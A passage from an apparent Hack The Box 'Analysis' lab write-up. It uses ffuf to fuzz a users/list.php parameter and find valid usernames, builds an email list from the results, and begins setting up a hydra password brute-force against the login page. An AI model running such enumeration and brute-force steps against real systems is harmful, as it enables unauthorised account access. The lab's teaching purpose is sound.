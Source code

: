 ```bash
name                    [Status: 200, Size: 406, Words: 11, Lines: 1, Duration: 37ms]
```

We could try going through a standard username list as well as our `userList` to see if anything interesting comes back for the `name` parameter, i.e., potential valid usernames:

```bash
# enumerating name parameter with standard wordlist
$ ffuf -u http://internal.analysis.htb/users/list.php?name=FUZZ -w /usr/share/wordlists/seclists/Usernames/Names/names.txt -ac -c
# nothing back

# enumerating name parameter with custom wordlist
$ ffuf -u http://internal.analysis.htb/users/list.php?name=FUZZ -w userList -ac -c

________________________________________________
 :: Method           : GET
 :: URL              : http://internal.analysis.htb/users/list.php?name=FUZZ
 :: Wordlist         : FUZZ: /home/kali/htb/fullpwn/analysis/userList
 :: Follow redirects : false
 :: Calibration      : true
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

jangel                  [Status: 200, Size: 416, Words: 11, Lines: 1, Duration: 38ms]
technician              [Status: 200, Size: 418, Words: 11, Lines: 1, Duration: 38ms]
badam                   [Status: 200, Size: 412, Words: 11, Lines: 1, Duration: 43ms]
```

It seems that we have 3 users that we could maybe use to login to the portal. We can put those usernames in a new list and try brute-forcing their passwords. The login portal looks let us know that employees use their email to login and not their username:

![](employees_loginPHP.png){: .normal width="65%"}


```bash
# creating a new email list
$ cat mailList | grep "tech\|badam\|jangel" > mailList_reduced
$ cat mailList_reduced
jangel@analysis.htb
technician@analysis.htb
badam@analysis.htb
```

We can now trying brute-forcing `/login.php`. We can find what is the appropriate string to put on the `hydra`'s `F` parameter by using some random credentials, e.g. `test:test`, to login:

![](test_login_error.png){: .normal width="65%"}

The text we should put there is not the "*Wrong Data*" string, but what is hidden in the source code as the **class label**, i.e., "*text-danger*":
